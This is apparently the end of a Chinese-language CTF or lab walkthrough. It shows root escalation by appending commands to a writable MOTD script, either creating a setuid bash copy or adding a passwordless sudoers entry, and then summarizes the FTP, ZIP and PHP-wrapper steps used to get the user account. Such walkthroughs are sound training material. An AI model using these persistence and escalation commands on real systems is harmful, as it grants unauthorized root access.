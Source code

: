 `/etc/update-motd.d/00-header` 是一个脚本文件，用于在每次用户登录时显示信息（Message of the Day，简称 MOTD）。具体来说，这个文件是 Linux 系统中用于定制用户登录后显示的内容的一部分。

一般来说这个脚本会以**root**的身份启动

因此只需要向里面追加提权的部分就行了

```
echo "cp /bin/bash /home/maria/bash && chmod u+s /home/maria/bash" >> /etc/update-motd.d/00-header
```

或者说

```
echo 'echo "maria ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/maria' >> /etc/update-motd.d/00-header
```

然后重新连接**ssh**即可

![](./images/image-105.png)

## Summary

`User`：**FTP**匿名登陆文件泄露，**ZIP**破解密码，分离图片。文件包含导致的**PHP**伪协议命令执行，我看其他的**Writeup**里面有用到**filterchains**，我的这个还是比较简单。

`Root`：给登录提示信息的脚本中添加提权部分，由于脚本会以**root**的身份启动，因此可以直接执行提权代码，方法也有很多。

**PS**：我看到**/home**目录下还有另一个用户**norberto**，我好像并没有用到，不知道是不是非预期。
